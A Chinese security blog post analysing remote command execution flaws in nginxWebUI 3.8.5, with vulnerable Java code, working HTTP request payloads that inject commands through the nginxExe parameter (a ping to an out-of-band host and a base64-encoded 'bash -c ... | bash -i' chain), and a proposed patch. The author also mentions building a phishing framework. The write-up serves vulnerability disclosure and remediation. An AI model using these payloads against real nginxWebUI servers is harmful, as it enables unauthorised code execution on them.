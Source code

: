 

# 安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议 - 先知社区

安服？开发！记一次 nginxWebUI3.8.5 版本的 RCE 分析及修复建议

- - -

## 前言

临时接到通知说要防个网站用作钓鱼，在一系列的阻碍之下，只好自己手搓一套钓鱼框架，第一时间也就想到了 nginx，于是乎我就想起来前段时间审计过的 nginxWebUI 正好方便拿来使用，UI 操作就是快。但印象里当时即使是最新版的 nginxWebUI 后台仍存在 RCE，因此重新审计回看这套代码，顺便当一回开发，在不影响业务的前提下如何修复漏洞。

## 历史漏洞

### 漏洞分析

其实大概在 3.6.2 版本之后，nginxWebUI 就开始陆续修复`/adminPage/conf/runCmd`接口的 rce，但 RCE 漏洞仍然存在，在 3.6.5 之后针对该接口代码就基本没有什么改动了。这里先看一下作者之前的修复方式。  
`com.cym.controller.adminPage.ConfController#isAvailableCmd`承担了防御命令执行的重大使命  
[![](assets/1708870129-0a9343ba13ba228931a4bb7f1fb5e5b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024130-fe8dcff8-d1b1-1.png)

1.  可控的 cmd 先判断是否符合 switch 中各项条件，若一致则提前返回 true
    
    ```bash
    private boolean isAvailableCmd(String cmd) {
    // 检查命令格式
     switch (cmd) {
         case "net start nginx":
         case "service nginx start":
         case "systemctl start nginx":
         case "net stop nginx":
         case "service nginx stop":
         case "systemctl stop nginx":
         case "taskkill /f /im nginx.exe":
         case "pkill nginx":
             return true;
         default:
             break;
     }
    ```
    
2.  前端传入 cmd 是否与 nginx 相关命令一致
    
    ```bash
    if (cmd.equals(settingService.get("nginxExe") + " -s stop" + dir)) {
     return true;
    }
    if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
     return true;
    }
    ```
    
    这种方式看似将 cmd 变为不可控变量交给`RuntimeUtil.exec`函数执行，实际上 nginxExe 在系统中也是用户可控的，其作用是用户设定 nginx 路径等相关配置

[![](assets/1708870129-a36f38d228688aa0c64bcd8f30c4c792.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024307-3826e934-d1b2-1.png)

[![](assets/1708870129-43ff5f3747460b4c93c75d58839672dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024335-48ec4a52-d1b2-1.png)  
`ToolUtils.handlePath`会过滤这些参数中的特殊字符

[![](assets/1708870129-88992d9cb77fb56bf73c4825d7c2b0f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024353-5388df16-d1b2-1.png)  
所以攻击者只需要将 nginxExe 与 cmd 设定为特定 payload，使上文`cmd.equals`成立即可。不过即使这样也无法避免的会将`" -c " + settingService.get("nginxPath") + dir`、`" -s stop" + dir`带入到`RuntimeUtil.exec`中执行，此时 linux 中的分隔符也已被过滤，诸如反弹 shell 之类的大部分命令都无法执行，因此这里对漏洞的修复也算是收敛了攻击面。笔者这里能想到的是只能执行诸如 ping 这种含有-c 或者其他相关命令了，如有错误欢迎指正。

### 漏洞复现

此处我想满足的是`com.cym.controller.adminPage.ConfController#isAvailableCmd`的这段条件

```bash
if (cmd.equals(settingService.get("nginxExe") + " -c " + settingService.get("nginxPath") + dir)) {
    return true;
}
```

当传入的 nginxExe、nginxPath 传入如下内容后，cmd 则为`ping${IFS}jitmszgnmy.dgrh3.cn -c 1`

```bash
POST http://localhost:8085/adminPage/conf/saveCmd HTTP/1.1
Host: localhost:8085

nginxExe=ping${IFS}jitmszgnmy.dgrh3.cn&nginxPath=1
```

[![](assets/1708870129-4c0a36e76a2e030bb41e21c1f5892c11.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024629-b0d948a4-d1b2-1.png)  
成功调用 cmd 执行 ping 命令

[![](assets/1708870129-1555cf20930d9ae54f4ef592b0e8c62f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024640-b7425906-d1b2-1.png)

## 迟迟未修的 RCE 漏洞

上文中分析到 nginxExe 可控，代码中还有多处对该参数执行 RCE 等相关操作。例如：`com.cym.controller.adminPage.ConfController#check`，跟上文不同，该处 RCE 可执行任意代码。

### 漏洞分析

nginxExe 可控，当其为空时，则会从`settingService.get`中获取，且被`ToolUtils.handlePath`过滤处理

[![](assets/1708870129-c339979ac539b1b520bed0f67c7eab35.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024721-cfb122d8-d1b2-1.png)  
假如不为空，则直接被拼接至 cmd 中，交由`RuntimeUtil.execForStr`执行

[![](assets/1708870129-2382313a3cb96a8eb6b51f3a0ed61917.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024734-d7ba986a-d1b2-1.png)  
然而就算到这一步又会碰到一个老问题：命令无法执行

[![](assets/1708870129-69f721edc4d4826e17a8edff55c6957e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024745-ddd2003a-d1b2-1.png)  
但 shell 中是可以正常执行的

[![](assets/1708870129-f4c1727507cd913084a2e031431990ac.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024752-e2719790-d1b2-1.png)  
这里涉及到的是老生常谈的知识点：java 命令执行，这里就不再赘述，简单分析下此处的原因：  
`cn.hutool.core.util.RuntimeUtil#cmdSplit`会以空格为分隔符将 cmd 分割

[![](assets/1708870129-7cb123c01963a24f198979dfe8aa59be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024808-ebd26756-d1b2-1.png)  
cmd 数组接着会传递至`java.lang.ProcessBuilder#start`函数，在 该方法中将 cmdarry 第一个参数 `cmdarry[0]` 当作要执行的命令，把后面的 `cmdarry[1:]`作为命令执行的参数转换成 byte 数组 argBlock，此时执行语义已经被更改，正常在 shell 中能够执行的语句也就无法执行了。而在 bash 和 base64 的帮助下可以打通这里的 RCE。  
另外，该接口传入的 json 参数需要符合特定 json 类型要求才能成功触发 RCE

[![](assets/1708870129-a5eeb29bb987c0fb4eec1180bfc936d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024830-f8e6b866-d1b2-1.png)

### 漏洞复现

功能点在检验文件处，nginx 执行命令则为可控的 nginxExe 参数

[![](assets/1708870129-769ce39b654ff3e1e3342fdf0aed47f1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024844-0160b1f4-d1b3-1.png)

```bash
POST http://localhost:8085/adminPage/conf/check HTTP/1.1
Host: localhost:8085

nginxPath=&nginxExe=bash+-c+{echo,b3BlbiAvU3lzdGVtL0FwcGxpY2F0aW9ucy9DYWxjdWxhdG9yLmFwcA==}|{base64,-d}|{bash,-i}&nginxDir=&json={"nginxPath":"","nginxContent":"","subContent":[],"subName":[]}
```

[![](assets/1708870129-670199b15e9b8623ceb38648e41ea3bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223024901-0b20dd40-d1b3-1.png)

## 未知攻，焉知防

该接口的 RCE 至今未修，可能作者也是比较无奈不知该如何修正，因为 nginxExe 为用户设定 nginx 文件路径，从功能角度来看该接口是用来执行 nginx 命令来校验 conf 文件，传入参数可控 + 必不可少的需要直接执行命令，除了黑名单似乎没有什么好办法了。  
而我这里想到的修复方式是：

1.  将全局 nginxExe 都通过`ToolUtils.handlePath`处理
2.  验证用户传入参数是否为文件  
    既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
3.  验证文件是否为 nginx  
    这里我的方案是执行 nginx -v 操作，通版本号的输出来判断是否为 nginx。原本想的是计算 hash 来进行比对，但 nginx 毕竟是编译使用的，比对 hash 并不现实。如果有师傅有其他的 good idea 欢迎来提！  
    添加代码如下：
    
    ```bash
    try{
     //既然 nginxExe 可控，且含义为 nginx 路径，因此直接可以用 isFile 函数来判断用户传入参数是否为文件
     File file = new File(nginxExe);
     boolean isFile = file.isFile();
     if (!isFile){
         return renderSuccess("not nginx filepath");
     }else {
         //如果是文件，执行-v 操作，来判断是否为 nginx
         rs = RuntimeUtil.execForStr(nginxExe + " -v");
         if (!rs.contains("nginx version")){
             return renderSuccess("not nginx");
         }
     }
    }catch (Exception e){
     logger.error(e.getMessage(), e);
     rs = e.getMessage().replace("\n", "<br>");
    }
    ```
    
    实际效果如下：  
    正常进行文件校验：

[![](assets/1708870129-570ba2fab5de3e74fe333e08d7864a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025037-4482488a-d1b3-1.png)  
用户输入恶意代码：

[![](assets/1708870129-323c84a244b8aefca496d6bd27f6d635.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025045-49a0889a-d1b3-1.png)  
执行其他非 nginx 文件，实际这里也是通过调用 RuntimeUtill 执行来验证是否为 nginx，假如服务器已经被上传了马子，通过 nginxwebui 来触发执行马子，那谁也拦不住哈哈，只能说尽可能的收缩攻击利用面，增大漏洞利用难度  
[![](assets/1708870129-725bfbbea6063236f6e854cf77978716.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240223025723-36d5963c-d1b4-1.png)

## 总结

nginxWebUI 的 rce 虽然是个老洞，但历时那么久仍未完全修复也是比较令人遗憾的。开发的目的毫无疑问是设计一套方便开发、运维人员管理 nginx 的 ui 产品。一键启动固然方便，但从安全角度来看，在配置文件校验、文件启动功能上为了方便用户而造成的任意代码执行，是完全可以避免的。还是那句话，永远不能相信前端用户的输入，假如这套系统做的绝一点，直接添加一键安装编译 nginx 的功能（前端版本号可控 - 下载对应文件 - 解压编译），这样也就一劳永逸了。  
至此也算是收敛了 RCE 利用面，开发没打的补丁，臭安服帮他打～ 这样系统开在公网也心安了一丝丝。
